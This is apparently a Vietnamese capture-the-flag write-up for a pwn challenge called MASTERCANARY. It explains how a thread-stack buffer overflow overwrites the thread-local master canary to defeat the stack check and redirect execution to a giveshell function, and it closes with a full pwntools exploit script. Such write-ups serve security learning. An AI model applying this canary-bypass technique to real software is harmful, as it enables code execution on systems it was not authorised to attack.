








# MASTERCANARY



Đề bài cho ta 1 file `elf64` với PIE tắt => địa chỉ tĩnh



Chạy thử thì chương trình cho ta nhập `size` và `data` rồi ngừng chương trình

Ta dùng IDA để xem chi tiết chương trình làm gì:



Ở hàm `main`, chương trình tạo thread mới để chạy hàm `thread_routine()` rồi chờ thread đó kết thúc rồi kết thúc chương trình. Vậy hàm main không có lỗi gì để ta khai thác cả. Ta vào hàm `thread_routine()` xem có gì:



Đến đây ta thấy chương trình cho phép ta nhập `Size` và đọc từng ấy byte vào biến `v3` rồi kết thúc chương trình. Như vậy kích thước dữ liệu ta nhập vào kiểm soát được. Vậy nên ở đây có lỗi `Buffer Overflow`, tuy nhiên chương trình sẽ kiểm tra canary vậy nên việc ghi đè `RET addr` sẽ khó khăn hơn.



Để ý thì ở trong binary còn có hàm `giveshell`. Vì vậy mục tiêu của ta là bypass canary và ghi đè `return address` để có thể tạo được shell. Vậy làm sao để bypass được canary???

## Exploid

- Khi chương trình tạo thread mới bằng hàm `pthread_create()` thì cấu trúc `tls` sẽ được ánh xạ lên đầu stack của thread mới trong đó có cả canary. Vì vậy mình đã tính toán số byte từ data nhập vào đến địa chỉ chứa canary (địa chỉ mà ta thường thấy chương trình lấy `fs:0x28`):


Vậy ý tưởng của mình là gửi payload vào, thay đổi giá trị canary ở cả 2 chỗ để khi so sánh sẽ là 2 giá trị giống nhau. Mình thử gửi payload vào ngẫu nhiên thì gặp lỗi `sigsegv`:



Ở đây ta bị dừng do `rax` không phải là `offset` hợp lệ vì vậy mình sẽ gửi payload với một loạt địa chỉ read write được:



Okay! như vậy ta đã change `canary` xong, bây giờ mình chỉ việc thay `Return address` bằng địa chỉ hàm `giveshell()` thôi

# Solve script

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./mc_thread_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        #r = gdb.debug([exe.path],'''
                    #   b * 0x00000000004013ef
                    #   b * 0x000000000040136b
                    #   b * 0x000000000040139C
                    #   c
                    #   ni
                    #   thread 2
                    #   c
                    #   ''')
            
    else:
        r = remote("localhost", 7182)

    return r


def main():
    r = conn()
    r.sendlineafter("Size: ",b"2352")
    payload = p64(0x4041b0)*0x23
    payload += p64(exe.sym["giveshell"])
    payload += p64(0x4041b0)*(0x126-0x24)

    r.sendlineafter("Data: ",payload)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```




